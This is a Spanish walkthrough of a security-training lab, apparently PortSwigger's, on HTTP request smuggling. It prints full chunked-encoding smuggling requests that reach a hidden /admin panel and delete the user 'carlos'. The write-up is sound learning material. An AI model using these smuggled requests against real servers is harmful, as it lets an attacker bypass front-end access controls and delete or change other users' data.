

## LAB

Para resolver el laboratorio y poder acceder o ejecutar solicitudes hacia el backend, para ello debemos construir una solicitud en la que tenga nuestra solicitud con la ruta, en este caso `/admin`



Teniendo en cuenta el numero de bits de la data que se enviara, que en este caso es 3



Con respecto al numero de bit de toda la data que se enviara, en este caso es 41.



Por lo que nuestra solicitud será quedara asi;

```c
POST / HTTP/1.1
Host: 0a3c001a033a6a1f809c12fe004d00f2.web-security-academy.net
Transfer-Encoding: chunked
Content-Length: 41

3
x=2
0

GET /admin HTTP/1.1
Test: A
```

Al enviar dos veces podremos observar que podemos ver el panel del administrador.



Para que podamos ver todo el contenido del panel de administrador, lo que tenemos que hacer es agregar un `Content-Length`. Esto funcionará ya que el backend interpreta que se envía dos solicitudes y al ser dos por separadas se puede colocar un `Content-Length`, independiente de método que tenga en la segunda parte.

Ahora vemos cuantos bits tiene para colocarlos en el `Content-Length`, en este caso es 3.



Ahora, volvemos a contar cuantas tiene toda la data de la request del body, en este caso tiene un total de 75.



Por lo que nuestra solicitud quedaría de la siguiente manera.

```c
POST / HTTP/1.1
Host: 0a3c001a033a6a1f809c12fe004d00f2.web-security-academy.net
Transfer-Encoding: chunked
Content-Length: 75

3
x=2
0

GET /admin HTTP/1.1
Host: localhost
Content-Length: 3

x=a
```

Por lo que ahora procederemos a enviar la solicitud, luego de intentar e intentar enviado las solicitudes esta no mostraba el contenido de la ruta `/admin`



Por lo que para poder observar el contenido de la ruta `/admin` debemos inflar o poner mas bits en el segundo `Content-Length`. Esto es debido a que nuestra solicitud quedara tipo `keep alive`, el cual al realizarse una nueva solicitud se podrá realizar la request maliciosa.



Luego de enviar, podremos ver el panel del administrador, por lo que para completar el laboratorio podemos enviar una solicitud `GET` a una ruta en especifico.



Así que debemos enviar una solicitud a la ruta `/admin/delete?username=carlos`, por lo que al construir nuestra solicitud maliciosa tendríamos así:

```c
POST / HTTP/1.1
Host: 0a3c001a033a6a1f809c12fe004d00f2.web-security-academy.net
Transfer-Encoding: chunked
Content-Length: 99

3
x=2
0

GET /admin/delete?username=carlos HTTP/1.1
Host: localhost
Content-Length: 6

x=a 
```

Procedemos a enviar



Como vemos el usuario carlos ya no existe, porque fue eliminado.



